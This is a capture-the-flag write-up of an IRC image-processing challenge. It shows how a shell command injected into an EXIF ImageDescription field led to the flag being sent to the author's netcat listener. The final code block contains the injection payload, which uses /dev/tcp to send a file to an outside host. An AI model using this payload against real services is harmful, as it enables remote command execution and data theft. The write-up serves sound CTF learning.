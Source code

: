 # Santa's little recorders - Net/pwn (200)

This year for secret Santa, Santa's elves are making a photo-album for Ms. Claus, featuring some of the millions of selfies her husband makes on the north pole. To help with the effort, they have created some automated processing to sort through the images.

Service: #santas_little_recorders on irc.overthewire.org

## Initial review

The description for this problem didn't give much to go on aside from the fact that this challenge would involve some sort of image processing. I headed over to the IRC channel and after a couple technical issues I started messaging one of the `SantaRecorder-###` bots. Any message will prompt you to send a message with a URL:

```
Hi there. Try '!record <url>' in private message
```

After a lot of trial and error I found that the bot wanted an image with special metadata tags. After searching around a bit I landed on using the Linux [exiftool](https://en.wikipedia.org/wiki/ExifTool) for inserting tags into JPG images. A lot of trial and error showed that the server was parsing out latitude, longitude, altitude, and finally a description field. A short snippet of the trial and error with various error messages is below.

![Santas Recorder on IRC](./images/santarecorder.png)

Finally, after getting all of the other metadata into the image, I got to the `ImageDescription` which had the heart of the problem. This field seemingly needed the string "Santa" in it, but did allow some special characters. Notably, it allowed `;` and `'` which meant that there might be a way to inject shell commands. A lot of trial and error later I finally landed on a rather simple command injection using the [bash redirection trick described here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Setting up my own netcat listener this let me receive the flag after sending a crafted message. The final two commands are below:

```
$ exiftool -XMP:GPSLatitude=90.0 -XMP:GPSLongitude=0.0 -GPSLatitude=90.0 -GPSLongitude=0.0 -GPSLongitudeRef="East" -GPSLatitudeRef="North" -GPSAltitude=0.0 -GPSAltitudeRef="above" -ImageDescription="Santa ; /bin/bash -c 'cat /opt/flag > /dev/tcp/myipaddress/8081'" elf.jpg
    1 image files updated
$ nc -nvlp 8081
listening on [any] 8081 ...
connect .. from (UNKNOWN) .. 52496
AOTW{A_mighty_duckface_on_this_one}
$ 
```

